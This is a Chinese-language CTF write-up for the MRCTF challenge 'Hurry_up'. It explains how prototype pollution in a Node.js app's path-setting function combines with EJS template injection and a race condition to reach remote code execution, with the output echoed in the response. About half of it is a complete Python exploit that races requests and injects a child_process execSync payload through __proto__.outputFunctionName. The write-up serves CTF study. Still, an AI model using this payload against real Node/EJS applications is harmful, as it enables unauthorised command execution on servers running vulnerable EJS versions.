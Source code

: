 ## Hurry_up

### 考点

原型链污染，模板注入，条件竞争，不出网回显

### 分析

题目还是比较常规，整体来说不难。给了整个的dockefile。题目主体是个node应用。但通过npm查看并没有发现存在漏洞的依赖。题目代码也不多。简单分析一下，不难知道getValue.js的set方法中存在类似merge的操作。并且对键值没有任何的过滤（其实有个黑名单，但并未真正使用），这里的代码其实是改自mpath，这个包有过一个原型链污染的洞，官方就是通过添加黑名单来修复的。
因为应用使用ejs作为模板引擎，加上有了原型链污染的点，下一步自然就是配合模板注入去rce。但进一步尝试，可以发现应用中只有在`/`路由中有模板渲染的操作。而原型链污染的触发点是在`/hide`路由。此外，在应用的入口有个对于原型链污染的防护机制。

```javascript
// csp and no way of pp
app.use(async (req, res, next) => {
    res.header(
        "Content-Security-Policy",
        "default-src 'self';"
    );
    await new Promise(function (resolve) {
        for (var key in Object.prototype) {
            console.log(key);
            delete Object.prototype[key];
        }
        resolve()
    }).then(next)
});
```

所以就算我们通过`/hide`成功污染到原型链，但在下次进入`/`的之前，Object便会被删除所有的属性。我们污染到的属性也就被删除了。
这里便是可以竞争的点。我么知道，对于node，所有请求共用同一个环境，这也就是为什么如果一个请求污染到了原型链，那么之后所有的请求都会受到影响。所以如果，我们在进入`/`之后，而赶在模板渲染之前，在另外一个请求中完成对原型链的污染，这样就可以了。由于node是单线程异步非阻塞模式的，意味着如果一个请求没有处理结束或进入阻塞，下一个请求是不会开始处理的。而在这个题目中，其实有几行很扎眼的代码，帮助我们让给到`/`的请求在模板渲染前进入阻塞。
~~其实可以用一些合乎程序逻辑的数据库查询等io操作把这个阻塞伪装的更好(x~~

```javascript
exports.safeCheck = async function () {
    return await new Promise(function (resolve) {
        setTimeout(resolve, 100);
    })
}
```

所以卡住这个时间点，竞争就好了。
但通过dockerfile可以知道，题目中配置了防火墙，不允许主动访问外网，所以要把命令回显写到response对象中。常见思路可以使用hook，劫持res.end()，~~但对于共用靶机来说，这样太不可控了~~，但因为题目有关于hook的黑名单。~~也不知道能不能防的住~~。

```javascript
var blacklist = ['{', '}', 'function','ook'];
```

### exp

```python
import requests
import threading
from pwn import *
import time
import random


ip=sys.argv[1]
port=sys.argv[2]
command=sys.argv[3]
flag1=True
tempTime = 20

url="http://"+ip+":"+str(port)+"/"

def attack(command):
    global flag1
    t1 = threading.Thread(target=tar1,args=(command,))
    t2 = threading.Thread(target=tar2)
    t2.start()

    # time.sleep(random.random())
    t1.start()
    # time.sleep(2)
    

def tar1(command):
    global flag1
    ran1=-1
    time1=-1
    while flag1:
        print("tar1")
        ran1 = random.random()
        time.sleep(ran1)
        requests.get(
            url+"hide",
            params={
                "path":"a.__proto__.outputFunctionName",
                "value":'''a=1;
        return process.mainModule.require('child_process').execSync('{}').toString();
        var b'''.format(command)
            })
        time1 = time.time()
        # flag1=False
    print("ran1="+str(time1))

s=b'''GET / HTTP/1.1
Host: 127.0.0.1:4000
Connection: close
Pragma: no-cache
Cache-Control: no-cache

'''
def tar2():
    global flag1
    global tempTime
    try:
        while tempTime>0:
            ran2 = random.random()
            time.sleep(ran2)
            io = remote(ip,port)
            io.send(s)
            time2 = time.time()
            re=io.recv()
            # print(re)
            if(b'MRCTF{' in re):
                print(re)
                flag1 =False
                print("ran2="+str(time2))
                return
            io.close()
            tempTime=tempTime-1
        print("fialed!")
        flag1 =False
    except:
        flag1=False



if __name__ == '__main__':
    attack(command)
# python3 ./exp.py 127.0.0.1 4000 'cat /flag'
```

因为是有条件竞争，时间窗给的也不大，exp默认尝试20次，如果没成功可以多运行几次。
关于污染之后如何命令执行并将结果返回，出题人之前的写法十分丑陋，赛后和师傅们交流学习到了十分优雅的写法，这里直接换到wp里了hhh。好像确实是很常规的操作，只能说出题人露怯了。
此外，由于ejs在比赛前3天修复了漏洞并更新到3.1.7。但出题的时候是1个月前，所以附件中写的是 `^3.1.6`。导致一些师傅本地跑附件时搭建的环境和服务器上的有出入。给师傅们造成的不便，出题人深表歉意＞﹏＜。
